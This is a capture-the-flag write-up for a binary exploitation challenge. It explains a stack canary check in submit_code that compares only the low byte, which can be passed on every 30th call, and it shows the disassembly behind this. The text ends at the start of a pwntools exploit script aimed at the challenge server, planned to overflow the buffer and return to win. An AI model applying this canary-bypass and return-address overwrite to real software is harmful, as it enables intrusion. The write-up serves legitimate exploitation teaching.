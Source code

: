```
                break;
            case 2:
                run = 0;
                break;
            default:
                break;
        }
    }
    return 0;
}
```

There's a buffer overflow in `submit_code`, but there's a stack canary for each function. There isn't an obvious way to leak the canary, so we turn to the assembly.

```
0x00000000004011e2 <+66>:    mov    rax,QWORD PTR ds:0x404080
0x00000000004011ea <+74>:    add    rax,0x1
0x00000000004011ee <+78>:    mov    QWORD PTR ds:0x404080,rax
0x00000000004011f6 <+86>:    and    rax,0x1f
0x00000000004011fa <+90>:    cmp    rax,0x1e
0x00000000004011fe <+94>:    je     0x40120e <submit_code+110>
0x0000000000401204 <+100>:    jmp    0x401228 <submit_code+136>
```

In `submit_code`, the canary is incorrectly implemented. The register `rax` holds `DuckCounter` (it gets incremented by 1 every time `submit_code` is called), and if it's equal to `0x1e==30`, it jumps to `submit_code+110`. Let's look at that.

```
=> 0x000000000040120e <+110>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000401217 <+119>:    mov    rcx,QWORD PTR [rbp-0x8]
   0x000000000040121b <+123>:    cmp    al,cl
   0x000000000040121d <+125>:    je     0x40123e <submit_code+158>
   0x0000000000401223 <+131>:    jmp    0x401209 <submit_code+105>
```

The compare is only done against the low byte of the canary (`cmp al, cl`)! The low byte is always zero so this function will return successfully. To summarize: call `submit_code` 29 times to set `DuckCounter` to the desired value, and on the 30th call, the canary effectively disappears. Then, just overflow the buffer and return to `win`.

```
from pwn import *
import struct

def p32(x):
    return struct.pack('<I', x)
def u32(x):
    return struct.unpack('<I', x)[0]
def p64(x):
    return struct.pack('Q', x)
def u64(x):
    return struct.unpack('Q', x)[0]

if __name__ == '__main__':
    debug = False

    if debug:
        p = process(['./glibc/ld-linux-x86-64.so.2', './chall'], env={'LD_PRELOAD': './glibc/libc.so.6'})
    else:
        p = remote('pwn.chall.pwnoh.io', 13386)

    # bypass canary by repeating function 29 times (on the 30th, only low byte of canary will be compared)

```